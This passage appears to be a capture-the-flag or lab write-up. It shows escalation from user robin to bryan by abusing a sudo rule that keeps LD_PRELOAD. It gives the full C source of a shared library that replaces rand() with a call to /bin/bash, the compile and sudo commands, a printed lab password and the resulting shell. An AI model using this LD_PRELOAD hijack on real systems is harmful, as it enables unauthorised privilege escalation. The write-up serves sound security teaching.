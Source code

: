     User robin may run the following commands on this host:
        (bryan) /usr/local/bin/dice

Let us put all the pieces together. We can run the program as bryan, we now that
the program load the `LD_PRELOAD` environement variable.

A simple google search lead us to
[this article](http://jvns.ca/blog/2014/11/27/ld-preload-is-super-fun-and-easy/)
and
[this one](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/).
So now we just need to write a shared library to replace `rand()` by `/bin/bash`
run the program as bryan and we would get a shell as bryan.

When testing the trick I ran into the following error:

    ::text
    [robin@fII ~]$ gcc -shared -fPIC unrandom.c -o unrandom.so
    gcc: error trying to exec 'cc1': execvp: No such file or directory

We just need to add some variable to our user's PATH:

    ::text
    export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/game

From there we we can compile the shared library and execute the dice program
with it:

    ::text
    [robin@fII ~]$ gcc -shared -fPIC unrandom.c -o unrandom.so
    gcc -shared -fPIC unrandom.c -o unrandom.so
    [robin@fII ~]$ LD_PRELOAD=$PWD/unrandom.so /usr/local/bin/dice
    LD_PRELOAD=$PWD/unrandom.so /usr/local/bin/dice
    42 baby

We need to copy the `.so` to a location where bryan could read it like `/tmp/`.
Now we can run the program as bryan and load the shared library:

    sudo -u bryan LD_PRELOAD=/tmp/unrandom.so /usr/local/bin/dice
    [sudo] password for robin: 40373df4b7a1f413af61cf7fd06d03a565a51898

    42 baby!

We need to modify the code to get a shell:

    #include <stdlib.h>

    char *getenv(const char *name){
    return 0;
    }

    int rand(){
    system("/bin/bash");
    return 42; //the most random number in the universe
    }

We compile it with `gcc` and run it as bryan:

    [robin@fII ~]$ sudo -u bryan LD_PRELOAD=/tmp/lol.so /usr/local/bin/dice
    sudo -u bryan LD_PRELOAD=/tmp/lol.so /usr/local/bin/dice
    [sudo] password for robin: 40373df4b7a1f413af61cf7fd06d03a565a51898
    [bryan@fII robin]$ id
    id
    uid=1001(bryan) gid=1001(bryan) groups=1001(bryan)
